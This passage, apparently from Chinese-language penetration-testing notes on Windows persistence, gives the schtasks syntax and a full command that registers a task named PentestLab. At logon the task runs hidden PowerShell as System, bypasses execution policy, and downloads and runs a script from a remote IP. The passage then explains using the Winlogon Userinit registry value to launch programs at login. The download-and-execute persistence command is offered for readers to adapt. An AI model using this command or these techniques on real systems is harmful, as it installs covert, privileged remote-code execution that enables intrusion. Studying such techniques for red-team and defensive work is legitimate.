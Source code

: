 schtasks一些参数：

```
schtasks /create /tn TaskName /tr TaskRun /sc schedule [/mo modifier] [/d day] [/m month[,month...] [/i IdleTime] [/st StartTime] [/sd StartDate] [/ed EndDate] [/s computer [/u [domain\]user /p password]] [/ru {[Domain\]User | "System"} [/rp Password]] /?
```

schtasks的执行如下

```
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''

http://1.1.2.21:80/Zzz'''))'" /sc onlogon /ru System
```

大家可以根据需求替换里面的参数

描述:允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划任务。\
&#x20;\
参数列表:

```
/Create         创建新计划任务。
/Delete         删除计划任务。
/Query          显示所有计划任务。
/Change         更改计划任务属性。
/Run            按需运行计划任务。
/End            中止当前正在运行的计划任务。
/ShowSid        显示与计划的任务名称相应的安全标识符。
/?              显示此帮助消息。
```

## 5、用户登陆初始化

### 1、winlogon进程执行login scripts

Userinit的作用是用户在进行登陆初始化设置时，WinLogon进程会执行指定的login scripts，所以我们可以修改它的键值来添加我们要执行的程序&#x20;

注册表路径为：HKLM\_LOCAL\_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\Userinit，我们添加一个计算器，多个程序用逗号隔开

![](<../../.gitbook/assets/image (350).png>)
